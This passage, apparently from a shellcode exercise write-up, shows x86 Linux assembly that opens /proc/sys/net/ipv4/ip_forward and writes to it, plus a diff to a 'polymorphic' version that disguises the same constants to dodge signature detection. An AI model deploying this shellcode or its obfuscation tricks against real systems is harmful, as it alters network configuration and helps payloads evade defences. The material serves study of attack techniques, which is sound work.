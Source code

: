 		mov ebx,eax
		push 0x30
		mov ecx,esp
		mov dl,0x1
		mov al,0x4
		int 0x80
		
		mov al,0x6
		int 0x80
		
		mov al,0x1
		int 0x80

And this is the difference between the two versions:

	--- orig.asm	2014-05-12 12:03:17.691780762 +0200
	+++ poly.asm	2014-05-12 11:58:44.086799226 +0200
	@@ -1,34 +1,37 @@
	global _start
	section .text
	_start:
	-	xor eax,eax
	-	push eax
	-	push 0x64726177
	-	push 0x726f665f
	-	push 0x70692f34
	-	push 0x7670692f
	+	xchg ebx,eax
	+	xor eax,ebx
	+	mov dword [esp-4], eax
	+	sub esp,4
	+	mov dword [esp-4],0x64726177
	+	mov dword [esp-8], 0x726f665f
	+	sub esp,8
	+	mov ebx,0x2f347069
	+	rol ebx,16
	+	push ebx
	+	mov ebx,0x6310101a
	+	add ebx,0x13605915
	+	push ebx
		push 0x74656e2f
		push 0x2f737973
	-	push 0x2f636f72
	-	push word 0x702f
	+	mov ebx,0x6f722f63
	+	rol ebx,16
	+	mov dword [esp-4],ebx
	+	sub esp,4
	+	push WORD 0x702f
		mov ebx,esp
	-	xor ecx,ecx
		mov cl,0x1
		mov al,0x5
		int 0x80
		